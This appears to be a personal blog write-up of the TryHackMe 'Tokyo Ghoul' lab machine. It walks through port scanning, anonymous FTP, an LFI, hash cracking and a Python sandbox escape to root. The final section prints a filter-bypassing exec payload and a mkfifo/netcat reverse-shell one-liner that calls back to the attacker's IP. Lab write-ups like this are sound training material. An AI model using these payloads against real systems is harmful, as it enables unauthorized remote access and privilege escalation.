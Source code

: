 ```yaml
---
layout: writeup
type: writeup
image: images/writeups/thm/tokyo-ghoul/logo.jpeg
title: Tokyo Ghoul - TryHackMe
permalink: writeups/tokyo-ghoul
# All dates must be YYYY-MM-DD format!
date: 2021-03-18
labels:
  - TryHackMe
  - boot2root
  - Medium
  - LFI
  - Python Sandbox
  - Enumeration
summary: Help kaneki escape jason room in this Tokyo Ghoul inspired machine.
---
```


<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/header.png">
<script src="https://www.tryhackme.com/badge/192700"></script>

```
MACHINE = Tokyo Ghoul
TARGET = VARIABLE
OS = LINUX
DIFFICULTY = MEDIUM
```

## Enumeration

Starting off with rustscan to quickly scan all ports

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/1.png">

Performing a full scan with nmap on those ports

```
┌──(root💀Toyin)-[~/infosec/thm/tokyo-ghoul]
└─# nmap -sS -T4 -A -p 21,22,80 -oN nmap 10.10.7.110
Starting Nmap 7.91 ( https://nmap.org ) at 2021-03-18 20:28 WAT
Nmap scan report for 10.10.7.110
Host is up (0.18s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_drwxr-xr-x    3 ftp      ftp          4096 Jan 23 22:26 need_Help?
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.169.153
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 fa:9e:38:d3:95:df:55:ea:14:c9:49:d8:0a:61:db:5e (RSA)
|   256 ad:b7:a7:5e:36:cb:32:a0:90:90:8e:0b:98:30:8a:97 (ECDSA)
|_  256 a2:a2:c8:14:96:c5:20:68:85:e5:41:d0:aa:53:8b:bd (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Welcome To Tokyo goul
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 3.10 - 3.13 (95%), Linux 5.4 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (92%), Sony Android TV (Android 5.0) (92%), Android 5.0 - 6.0.1 (Linux 3.4) (92%), Android 5.1 (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT       ADDRESS
1   196.06 ms 10.8.0.1
2   196.02 ms 10.10.7.110

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.64 seconds
```

I added the target IP to my /etc/hosts as ghoul.thm so i won't have to type the IP all the time

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/2.png">

### FTP

Starting my poking around on ftp port 21 since anonymous login is available and nmap showed an intersting file present

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/3.png">

Looking further into the files i find need_to_talk to be an executable. I ran it and got some useful information back. I used rabin2 to read the strings from the data section and found what was likely to be the passphrase

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/3-1.png">

After getting the “passphrase” I decided to try it to extract data from the image i got from the ftp. I ended up with dots and dashes, so morse code, and went to my trusty chef to cook up something

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/4.png">

After tweaking the recipe I got what was surely a hidden directory

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/5.png">

### HTTP

Looking at the source for http://ghoul.thm I see a hint about anonymous ftp login but I've already done that same hint in http://ghoul.thm/jasonroom.html
Going into the directory I found, I see clear instructions to scan it so it would be quite rude not to

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/6.png">

gobuster took it's time but returned something. i should have probably used ffuf instead

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/7.png">

## Exploitation

Going to page i find that the links have get parameters that could possibly be LFI exploitable

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/8.png">

Trying basic LFI payload of ../../../../../../etc/passwd returned a message of “no no no silly don't do that” so i used ffuf to test various payloads and got a hit

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/9.png">

I used curl to get the contents and luckily also got a password hash for the user kamishiro

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/10.png">

Cracking the hash using hashcat i got the password for kamishiro and then logged in via ssh

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/11.png">

## Privilege Escalation

Upon logging in I ran "sudo -l" to see what sudo privileges the user had. I found that the user could execute a certain script as root
Checking the script it showed that it uses the “exec()” function therefore it can execute user input. It does have some filters so i would have to use a payload that doesn't include any of those

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/12.png">

using the payload below i was able to bypass the “python sandbox/jail”

```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('cmd')
```
reference: [Escaping Python Jails](https://anee.me/escaping-python-jails-849c65cf306e)

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/13.png">

Using the payload below to get a reverse shell as root

```
__builtins__.__dict__['__IMPORT__'.lower()]('OS'.lower()).__dict__['SYSTEM'.lower()]('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.8.169.153 4444 >/tmp/f')
```

<img class="ui image" src="{{ site.baseurl }}/images/writeups/thm/tokyo-ghoul/14.png">

pwned
